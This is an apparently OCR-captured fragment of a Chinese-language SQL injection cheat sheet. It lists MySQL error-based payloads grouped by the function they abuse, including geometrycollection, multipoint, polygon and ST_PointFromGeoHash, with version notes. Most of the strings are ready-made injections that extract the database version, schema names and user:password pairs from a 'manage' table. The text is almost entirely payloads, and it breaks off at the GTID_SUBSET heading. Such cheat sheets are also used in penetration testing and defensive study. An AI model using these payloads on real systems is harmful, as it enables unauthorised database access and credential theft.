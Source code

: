 ```python
SELECT POW(9999,9999999*IF(3<1,0,1))
```

### 

### geometrycollection()

**mysql 版本5.5**

```python
1') and geometrycollection((select * from(select * from(select version())a)b)); %23
1') and geometrycollection((select * from(select * from(select column_name from information_schema.columns where table_name='manage' limit 0,1)a)b)); %23
1') and geometrycollection((select * from(select * from(select distinct concat(0x23,user,0x2a,password,0x23,name,0x23) FROM manage limit 0,1)a)b)); %23
```

### multipoint()

**mysql 版本5.5**

```python
select multipoint((select * from(select * from(select version())a)b));
```

### polygon()

无法复现

```python
') or polygon((select * from(select * from(select (SELECT GROUP_CONCAT(user,':',password) from manage))asd)asd))--+
```

### ST_LatFromGeoHash&&ST_LongFromGeoHash

**mysql>=5.7.x**

```python
SELECT ST_LongFromGeoHash((SELECT * FROM(SELECT * FROM(SELECT DATABASE())a)b));
```

### ST_Pointfromgeohash

**mysql>5.7（无法复现应该是版本低了）**

```python
')or  ST_PointFromGeoHash(version(),1)--+
')or  ST_PointFromGeoHash((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)--+
')or  ST_PointFromGeoHash((select column_name from information_schema.columns where table_name = 'manage' limit 0,1),1)--+
')or  ST_PointFromGeoHash((concat(0x23,(select group_concat(user,':',`password`) from manage),0x23)),1)--+
```

### GTID_SUBSET&GTID_SUBTRACT
